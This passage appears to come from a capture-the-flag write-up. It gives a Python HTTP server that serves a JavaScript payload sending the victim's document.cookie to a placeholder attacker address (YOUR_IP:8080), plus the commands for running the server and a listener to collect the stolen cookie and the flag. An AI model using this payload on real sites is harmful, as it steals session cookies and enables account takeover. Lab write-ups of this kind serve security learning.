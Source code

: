 Finally, we will serve a payload on our controlled server to steal the user's cookie and send it to us.  

```python
#!/usr/bin/python3

    
from http.server import BaseHTTPRequestHandler, HTTPServer

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.send_header("Content-type","text/html")

            self.end_headers()
            self.wfile.write(b"fetch('http://YOUR_IP:8080/' + document.cookie)")
def run_server(port=1337):   
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

Run it by with the following command:

```python
sudo python3 server.py 
```

Note that the victim will make an additional request to port 8080; you can serve another Python web service by using:

```python
sudo python3 -m http.server 8080
```

Now, after around a minute, you should get the flag!

